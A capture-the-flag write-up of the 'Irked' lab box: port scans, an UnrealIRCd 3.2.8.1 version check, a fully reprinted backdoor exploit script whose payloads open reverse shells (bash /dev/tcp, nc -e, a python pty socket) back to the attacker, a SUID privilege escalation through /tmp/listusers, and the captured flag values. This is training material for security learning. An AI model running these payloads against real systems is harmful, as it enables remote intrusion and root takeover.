


# Irked

## Overview

This was a very easy box. An IRC backdoor helped to get into the system. After that a simple SUID binary leads to root



**Name -** Irked

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

Basic Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 19s
╰─ rustscan -a  10.129.76.131 --ulimit 1000 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 1000.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
Open 10.129.76.131:22
Open 10.129.76.131:80
Open 10.129.76.131:111
Open 10.129.76.131:6697
Open 10.129.76.131:8067
Open 10.129.76.131:53881
Open 10.129.76.131:65534
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 01:46 +06
Initiating Ping Scan at 01:46
Scanning 10.129.76.131 [4 ports]
Completed Ping Scan at 01:46, 0.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:46
Completed Parallel DNS resolution of 1 host. at 01:46, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 01:46
Scanning 10.129.76.131 [7 ports]
Discovered open port 53881/tcp on 10.129.76.131
Discovered open port 80/tcp on 10.129.76.131
Discovered open port 22/tcp on 10.129.76.131
Discovered open port 111/tcp on 10.129.76.131
Discovered open port 65534/tcp on 10.129.76.131
Discovered open port 6697/tcp on 10.129.76.131
Discovered open port 8067/tcp on 10.129.76.131
Completed SYN Stealth Scan at 01:46, 0.20s elapsed (7 total ports)
Nmap scan report for 10.129.76.131
Host is up, received reset ttl 62 (0.085s latency).
Scanned at 2023-06-14 01:46:52 +06 for 0s

PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 62
80/tcp    open  http       syn-ack ttl 62
111/tcp   open  rpcbind    syn-ack ttl 62
6697/tcp  open  ircs-u     syn-ack ttl 62
8067/tcp  open  infi-async syn-ack ttl 62
53881/tcp open  unknown    syn-ack ttl 62
65534/tcp open  unknown    syn-ack ttl 62

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
           Raw packets sent: 11 (460B) | Rcvd: 8 (348B)
```

Version Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 9s
╰─ nmap -sC -sV -p22,80,111,6697,8067,53881,65534 10.129.76.131 --script vuln
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 01:47 +06
Nmap scan report for 10.129.76.131
Host is up (0.19s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:6.7p1:
|       CVE-2015-5600   8.5     https://vulners.com/cve/CVE-2015-5600
|       CVE-2015-6564   6.9     https://vulners.com/cve/CVE-2015-6564
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       SSV:90447       4.6     https://vulners.com/seebug/SSV:90447    *EXPLOIT*
|       CVE-2016-0778   4.6     https://vulners.com/cve/CVE-2016-0778
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2015-5352   4.3     https://vulners.com/cve/CVE-2015-5352
|       CVE-2016-0777   4.0     https://vulners.com/cve/CVE-2016-0777
|_      CVE-2015-6563   1.9     https://vulners.com/cve/CVE-2015-6563
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| http-enum:
|_  /manual/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners:
|   cpe:/a:apache:http_server:2.4.10:
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631   *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2023-25690  7.5     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    7.5     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9       *EXPLOIT*
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427    *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8       *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CVE-2014-0226   6.8     https://vulners.com/cve/CVE-2014-0226
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2       *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332       *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B       *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE       *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577    *EXPLOIT*
|       CVE-2022-36760  5.1     https://vulners.com/cve/CVE-2022-36760
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       SSV:62058       5.0     https://vulners.com/seebug/SSV:62058    *EXPLOIT*
|       EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7    5.0     https://vulners.com/exploitpack/EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7 *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40961    5.0     https://vulners.com/exploitdb/EDB-ID:40961      *EXPLOIT*
|       CVE-2022-37436  5.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2022-22719  5.0     https://vulners.com/cve/CVE-2022-22719
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-2161   5.0     https://vulners.com/cve/CVE-2016-2161
|       CVE-2016-0736   5.0     https://vulners.com/cve/CVE-2016-0736
|       CVE-2015-3183   5.0     https://vulners.com/cve/CVE-2015-3183
|       CVE-2015-0228   5.0     https://vulners.com/cve/CVE-2015-0228
|       CVE-2014-3583   5.0     https://vulners.com/cve/CVE-2014-3583
|       CVE-2014-3581   5.0     https://vulners.com/cve/CVE-2014-3581
|       CVE-2013-5704   5.0     https://vulners.com/cve/CVE-2013-5704
|       CVE-2006-20001  5.0     https://vulners.com/cve/CVE-2006-20001
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573    *EXPLOIT*
|       1337DAY-ID-26574        5.0     https://vulners.com/zdt/1337DAY-ID-26574    *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2015-3185   4.3     https://vulners.com/cve/CVE-2015-3185
|       CVE-2014-8109   4.3     https://vulners.com/cve/CVE-2014-8109
|       CVE-2014-0118   4.3     https://vulners.com/cve/CVE-2014-0118
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D       *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575    *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|_      PACKETSTORM:140265      0.0     https://vulners.com/packetstorm/PACKETSTORM:140265   *EXPLOIT*
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37207/udp   status
|   100024  1          40855/tcp6  status
|   100024  1          53881/tcp   status
|_  100024  1          57506/udp6  status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
|_ssl-ccs-injection: No reply from server (TIMEOUT)
| irc-botnet-channels:
|_  ERROR: Closing Link: [10.10.16.13] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
| irc-botnet-channels:
|_  ERROR: Closing Link: [10.10.16.13] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.
53881/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
| irc-botnet-channels:
|_  ERROR: Closing Link: [10.10.16.13] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.08 seconds
```

### **HTTP Enumeration**

Visiting the website gives us the following



Everything refers to irc protocol

## Initial Foothold

I tried to get into the irc server and found out the version

```bash
╭╴root @ …/c/Users/SiliconBits took 51s
╰─ nc -v 10.129.76.131 6697
Connection to 10.129.76.131 6697 port [tcp/ircs-u] succeeded!
:irked.htb NOTICE AUTH :*** Looking up your hostname...
USER ran213eqdw123 0 * ran213eqdw123
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
NICK ran213eqdw123
:irked.htb 001 ran213eqdw123 :Welcome to the ROXnet IRC Network ran213eqdw123!ran213eqdw@10.10.16.13
:irked.htb 002 ran213eqdw123 :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 ran213eqdw123 :This server was created Mon May 14 2018 at 13:12:50 EDT
:irked.htb 004 ran213eqdw123 irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
:irked.htb 005 ran213eqdw123 UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 ran213eqdw123 WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 ran213eqdw123 EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
:irked.htb 251 ran213eqdw123 :There are 1 users and 0 invisible on 1 servers
:irked.htb 255 ran213eqdw123 :I have 1 clients and 0 servers
:irked.htb 265 ran213eqdw123 :Current Local Users: 1  Max: 1
:irked.htb 266 ran213eqdw123 :Current Global Users: 1  Max: 1
:irked.htb 422 ran213eqdw123 :MOTD File is missing
:ran213eqdw123 MODE ran213eqdw123 :+iwx
VERSION
:irked.htb 351 ran213eqdw123 Unreal3.2.8.1. irked.htb :FhiXOoE [*=2309]
:irked.htb 005 ran213eqdw123 UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 ran213eqdw123 WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 ran213eqdw123 EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
PING :irked.htb
```

Unreal3.2.8.1 version has a remote backdoor. I found one exploit from [github](https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/master/exploit.py)

```python
#!/usr/bin/python3
import argparse
import socket
import base64

# Sets the target ip and port from argparse
parser = argparse.ArgumentParser()
parser.add_argument('ip', help='target ip')
parser.add_argument('port', help='target port', type=int)
parser.add_argument('-payload', help='set payload type', required=True, choices=['python', 'netcat', 'bash'])
args = parser.parse_args()

# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.16.13'  # CHANGE THIS
local_port = '8989'  # CHANGE THIS

# The different types of payloads that are supported
python_payload = f'python -c "import os;import pty;import socket;tLnCwQLCel=\'{local_ip}\';EvKOcV={local_port};QRRCCltJB=socket.socket(socket.AF_INET,socket.SOCK_STREAM);QRRCCltJB.connect((tLnCwQLCel,EvKOcV));os.dup2(QRRCCltJB.fileno(),0);os.dup2(QRRCCltJB.fileno(),1);os.dup2(QRRCCltJB.fileno(),2);os.putenv(\'HISTFILE\',\'/dev/null\');pty.spawn(\'/bin/bash\');QRRCCltJB.close();" '
bash_payload = f'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1'
netcat_payload = f'nc -e /bin/bash {local_ip} {local_port}'

# our socket to interact with and send payload
try:
    s = socket.create_connection((args.ip, args.port))
except socket.error as error:
    print('connection to target failed...')
    print(error)

# craft out payload and then it gets base64 encoded
def gen_payload(payload_type):
    base = base64.b64encode(payload_type.encode())
    return f'echo {base.decode()} |base64 -d|/bin/bash'

# all the different payload options to be sent
if args.payload == 'python':
    try:
        s.sendall((f'AB; {gen_payload(python_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'netcat':
    try:
        s.sendall((f'AB; {gen_payload(netcat_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'bash':
    try:
        s.sendall((f'AB; {gen_payload(bash_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

#check display any response from the server
data = s.recv(1024)
s.close()
if data != '':
    print('Exploit sent successfully!')
```

And using that exploit, I managed to get a shell


## Getting User and Root

I got an unknows SUID binary /usr/bin/viewuser


I ran that binary to see what it is doing


So, It is calling /tmp/listusers. so, I can create a file and execute it

```bash
echo "chown root:root /tmp/bash; chmod u+s /tmp/bash" >/tmp/listusers
```

And after running that binary, I could see the file has setuid bit enabled


And Finally I got root. After getting the root. I fetched both flag


## Flags

**user.txt -** 4c5dcb93dbd450764c8597009a117921

**root.txt -** 1e3acd67bd9e84aea154a2a550558325
